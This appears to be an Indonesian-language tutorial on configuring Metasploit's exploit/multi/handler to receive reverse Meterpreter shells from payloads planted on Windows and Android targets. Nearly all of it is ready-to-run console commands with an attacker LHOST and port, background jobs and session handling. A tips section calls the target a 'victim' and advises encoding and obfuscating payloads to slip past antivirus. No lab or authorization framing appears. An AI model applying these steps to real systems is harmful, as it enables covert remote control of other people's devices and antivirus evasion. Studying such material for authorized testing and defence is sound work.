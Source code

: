 # Membuat Listener dengan multi/handler

## A. Apa itu exploit/multi/handler?

`multi/handler` adalah modul di Metasploit yang berfungsi sebagai listener untuk menerima koneksi balik (reverse connection) dari payload yang sudah ditanamkan ke target.

Modul ini tidak mengeksploitasi, tapi hanya mendengarkan dan menangani koneksi masuk dari payload yang berhasil dijalankan di sistem korban.

## B. Langkah-Langkah Membuat Listener

1. Jalankan Metasploit Framework:

   ```
   msfconsole
   ```

2. Pilih Modul multi/handler:

   ```
   use exploit/multi/handler
   ```

3. Tentukan Payload yang Sesuai

   Contoh jika payload yang dikirim adalah `windows/meterpreter/reverse_tcp`:

   ```
   set PAYLOAD windows/meterpreter/reverse_tcp

   ```

4. Atur IP dan Port Listener:

   ```
   set LHOST 192.168.1.100
   set LPORT 4444
   ```

   - **LHOST**: IP Attacker (listener)
   - **LPORT**: Port tempat menerima koneksi

### 5. Jalankan Listener:

  ```
  run
  ```

  Atau bisa juga:

  ```
  exploit
  ```

## C. Contoh Lengkap: Listener untuk Payload Windows:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

## D. Contoh Listener untuk Payload Android:

```
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 1234
exploit
```

## E. Mode Background Listener

Kalau ingin listener tetap berjalan di background:

```
exploit -j
```

- `-j`: Jalankan sebagai job (background)
- `-z`: Tidak membuka sesi interaktif secara langsung

## F. Melihat Job Listener Aktif

```
jobs
```

## G. Interaksi dengan Session Meterpreter

Saat target berhasil terhubung, session akan muncul:

```
sessions
```

Untuk masuk ke sesi:

```
sessions -i <ID SESI>
```

## H. Tips Keamanan

- Gunakan IP yang benar-benar bisa diakses korban (`public IP/VPN/local` sesuai skenario).
- Jangan gunakan port yang umum terblokir firewall.
- Gunakan encoding dan obfuscation pada payload untuk menghindari AV.

## I. Troubleshooting

| Masalah | Penyebab Umum | Solusi |
|:--:|:--:|:--:|
| Tidak ada koneksi masuk | `IP/Port` salah | Pastikan `LHOST/LPORT` sesuai|
| Payload terdeteksi AV | Payload tidak diencode | Gunakan `-e` encoder di `msfvenom` |
| Listener tidak merespons | Port diblokir | Ganti port atau periksa firewall |
